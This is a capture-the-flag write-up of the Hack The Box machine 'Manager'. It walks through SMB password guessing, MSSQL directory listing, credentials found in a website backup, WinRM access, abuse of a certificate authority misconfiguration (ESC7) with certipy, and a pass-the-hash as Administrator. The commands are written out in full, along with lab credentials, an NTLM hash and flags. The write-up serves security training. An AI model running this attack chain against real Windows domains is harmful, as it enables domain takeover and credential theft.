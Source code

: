 # Manager

This is my Walkthrough on [Manager](https://app.hackthebox.com/machines/Manager) - The Hack The Box Seasonal Machine

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.74.218 -oA Manager
```

\*\*Had to shutdown to IP changed to `10.129.74.218` for some later things

<figure><img src="../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

```nmap
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Manager
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-24 03:15:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-24T03:13:49
| Not valid after:  2053-10-24T03:13:49
| MD5:   9e80:5b78:fbe6:b024:994f:f4b5:620b:15b2
|_SHA-1: dcd7:2c60:befc:7812:2a99:38fa:1637:2748:43a0:0698
| ms-sql-ntlm-info: 
|   10.129.74.218:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.74.218:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Findings

### HTTP

Not a lot to the website, no logon forms or any hidden directories

<figure><img src="../../.gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

#### Dirbuster/Gobuster

<figure><img src="../../.gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

#### SMB

<figure><img src="../../.gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

Directories are empty, C$ and ADMIN$ we don't have access by default.

BUT we were able to find the users with CrackMapExec and trying various passwords(username as pass but upper and lower), we find a valid user/password combination: `Operator:operator`

&#x20;&#x20;

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

### RPC

```bash
rpcclient -U "" 10.129.74.218
```

Not much found here but we did find the SID of the Administrator account

```
rpcclient $> lookupnames Administrator
Administrator S-1-5-21-4078382237-1492182817-2568127209-500 (User: 1
```

### SQL

#### Impacket-mssqlclient

Were able to log in with `Operator:operator`&#x20;

<figure><img src="../../.gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

Using xp\_dirtree to look around in various directories we eventually found:&#x20;

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>

Grabbed the .zip file

```
http://10.129.75.78/website-backup-27-07-23-old.zip
```

<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

#### .old-conf.xml

<figure><img src="../../.gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

More user creds! We found `Raven@manager.htb:R4v3nBe5tD3veloP3r!123`

### winrm

```bash
evil-winrm -i 10.129.75.78 -u Raven -p 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

User flag was found under user.txt on Ravens desktop: `5ba4881af698a98cbf340a8861580333`

## Priv Esc

Looked around at what permissions Raven had

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

### WinPEAS

<figure><img src="../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Nothing of super note was found with WinPeas unfortunately

### certipy

<figure><img src="../../.gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad find -vulnerable -u raven@dc01.manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.139.52 -stdout
```

We see ESC7 is vulnerable - [On the certipy github on ESC7](https://github.com/ly4k/Certipy#esc7). Upgrade Ravens account to have additional permissions. These had to be done in qucik succession as the machine does reset itself every few minutes.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash"><strong>certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
</strong></code></pre>

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

<figure><img src="../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 17 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 17
```

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

We now have our administrator.pfx and we can use this.

```bash
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.139.52
```

<figure><img src="../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

We need to sync our clock with the DC. We we can use rdate(need to install it) to get the time of the DC Server

```bash
sudo apt install -y rdate
sudo rdate -n dc01.manager.htb
```

<figure><img src="../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

Then use faketime to sync the clock

```bash
sudo apt install -y rdate
sudo faketime -f '(date/time of dc)'/bin/date
```

<figure><img src="../../.gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

Re-run our certipy command and get the hash of the administrator!&#x20;

<figure><img src="../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

Administrator NTLM hash: `aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`

Rather than try to crack it, we can use CrackMapExec to pass the hash and execute commands

```bash
crackmapexec smb 10.129.139.52 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -x 'dir C:\Users\Administrator\Desktop'
```

```bash
crackmapexec smb 10.129.139.52 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -x 'type C:\Users\Administrator\Desktop\root.txt'
```

<figure><img src="../../.gitbook/assets/image (541).png" alt=""><figcaption></figcaption></figure>

Root.txt: `35891a19f5ad0f5c2fced375b3c7142e`
